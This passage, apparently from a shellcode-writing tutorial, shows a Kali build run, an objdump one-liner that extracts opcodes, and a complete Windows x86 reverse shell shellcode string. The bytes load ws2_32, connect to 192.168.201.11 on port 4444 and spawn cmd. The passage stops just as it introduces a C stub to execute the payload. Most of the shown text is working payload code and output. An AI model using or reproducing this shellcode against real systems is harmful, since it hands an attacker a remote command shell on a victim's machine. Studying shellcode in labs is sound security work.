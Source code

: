 echo '[+] Done!'

</pre>


<p align="justify">
Then run the <code style="background-color: lightgrey; color:black;"><b>compile.sh</b></code> again
</p>

```
┌──(root㉿kali)-[/home/kali/Desktop]
└─# ./compile.sh rev
[+] Assembling with Nasm ...
[+] Linking ...
[+] Done!

```

<p align="justify">
At this point we use <code style="background-color: lightgrey; color:black;"><b>objdump</b></code> in order to produce the shellcode: 
</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 14px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
kali@kali:~/Desktop$ objdump -d ./testasm.exe|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc9\x64\x8b\x41\x30\x8b\x40\x0c\x8b\x70\x14\xad\x96\xad\x96\xad\x8b\x58\x10\x8b\x53\x3c\x01\xda\x8b\x52\x78\x01\xda\x8b\x72\x20\x01\xde\x31\xc9\x41\xad\x01\xd8\x81\x38\x47\x65\x74\x50\x75\xf4\x81\x78\x04\x72\x6f\x63\x41\x75\xeb\x81\x78\x08\x64\x64\x72\x65\x75\xe2\x8b\x72\x24\x01\xde\x66\x8b\x0c\x4e\x49\x8b\x72\x1c\x01\xde\x8b\x14\x8e\x01\xda\x31\xc9\x53\x52\x51\x68\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68\x4c\x6f\x61\x64\x54\x53\x89\xde\xff\xd2\x83\xc4\x0c\x5a\x50\x52\x66\xba\x6c\x6c\x52\x68\x33\x32\x2e\x64\x68\x77\x73\x32\x5f\x54\xff\xd0\x83\xc4\x10\x8b\x54\x24\x04\x68\x75\x70\x61\x61\x66\x81\x6c\x24\x02\x61\x61\x68\x74\x61\x72\x74\x68\x57\x53\x41\x53\x54\x50\x89\xc7\xff\xd2\x31\xdb\x66\xbb\x90\x01\x29\xdc\x54\x53\xff\xd0\x83\xc4\x10\x31\xdb\x80\xc3\x04\x6b\xdb\x64\x8b\x14\x1c\x68\x74\x41\x61\x61\x66\x81\x6c\x24\x02\x61\x61\x68\x6f\x63\x6b\x65\x68\x57\x53\x41\x53\x54\x89\xf8\x50\xff\xd2\x57\x31\xc9\x52\x52\x52\xb2\x06\x52\x41\x51\x41\x51\xff\xd0\x91\x5f\x83\xc4\x10\x31\xdb\x80\xc3\x04\x6b\xdb\x63\x8b\x14\x1c\x68\x65\x63\x74\x61\x66\x83\x6c\x24\x03\x61\x68\x63\x6f\x6e\x6e\x54\x57\x87\xcd\xff\xd2\x68\xc0\xa8\xc9\x0b\x66\x68\x11\x5c\x31\xdb\x80\xc3\x02\x66\x53\x89\xe2\x6a\x10\x52\x55\x87\xef\xff\xd0\x83\xc4\x14\x31\xdb\x80\xc3\x04\x6b\xdb\x62\x8b\x14\x1c\x68\x73\x41\x61\x61\x81\x6c\x24\x02\x61\x61\x00\x00\x68\x6f\x63\x65\x73\x68\x74\x65\x50\x72\x68\x43\x72\x65\x61\x54\x89\xf5\x55\xff\xd2\x50\x8d\x28\x68\x63\x6d\x64\x61\x66\x83\x6c\x24\x03\x61\x89\xe1\x31\xd2\x83\xec\x10\x89\xe3\x57\x57\x57\x52\x52\x31\xc0\x40\xc1\xc0\x08\x50\x52\x52\x52\x52\x52\x52\x52\x52\x52\x52\x31\xc0\x04\x2c\x50\x89\xe0\x53\x50\x52\x52\x52\x31\xc0\x40\x50\x52\x52\x51\x52\xff\xd5"
</pre>

<p align="justify">
In order to execute the above shellcode, we should create a STUB program in C which will deliver the execution. The following program will execute the reverse shellcode. 
</p>

